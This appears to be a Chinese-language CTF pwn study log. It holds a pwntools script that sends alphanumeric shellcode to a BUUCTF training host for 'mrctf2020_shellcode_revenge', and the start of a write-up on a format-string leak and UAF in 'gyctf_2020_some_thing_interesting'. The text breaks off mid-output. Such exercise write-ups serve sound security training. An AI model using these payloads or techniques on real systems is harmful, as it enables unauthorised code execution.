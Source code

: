 ## 3.mrctf2020_shellcode_revenge

可见字符的shellcode 推荐ae64和阿尔法3 然后记得装个py3.7不然没法用这些工具的

```python
from pwn import *
r=process('mrctf2020_shellcode_revenge')
context.log_level='debug'
r=remote('node4.buuoj.cn',29572)

r.recv()

payload='WTYH39Yj3TYfi9WmWZj8TYfi9JBWAXjKTYfi9kCWAYjCTYfi93iWAZjcTYfi9O60t800T810T850T860T870T8A0t8B0T8D0T8E0T8F0T8G0T8H0T8P0t8T0T8YRAPZ0t8J0T8M0T8N0t8Q0t8U0t8WZjUTYfi9860t800T850T8P0T8QRAPZ0t81ZjhHpzbinzzzsPHAghriTTI4qTTTT1vVj8nHTfVHAf1RjnXZP'
r.send(payload)
r.interactive()
```



# 7.25

## 1.gyctf_2020_some_thing_interesting（格式化字符串+UAF）

a1是可控的我们可以由此泄露出libc的地址，然后在dele处有UAF漏洞，所以我们可以用fastbin attack

```c
unsigned __int64 __fastcall bug1(const char *a1)
{
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  if ( dword_202010 )
  {
    puts("Now you are ....?");
    printf("# Your Code is ");
    printf(a1);
    putchar(10);
    puts("###############################################################################");
  }
  else
  {
    puts("Now you are Administrator!");
  }
  return __readfsqword(0x28u) ^ v2;
}
```

泄露libc，先随便输入个偏移%12$p

```c
Starting program: /home/q/Desktop/gyctf_2020_some_thing_interesting 
#######################
#       Surprise      #
#---------------------#
> Input your code please:OreOOrereOOreO%12$p
#---------------------#
#      ALL Down!      #
#######################
#######################
#      Action menu    #
#---------------------#
#    0.Check  Code.   #
#    1.Create Oreo.   #
```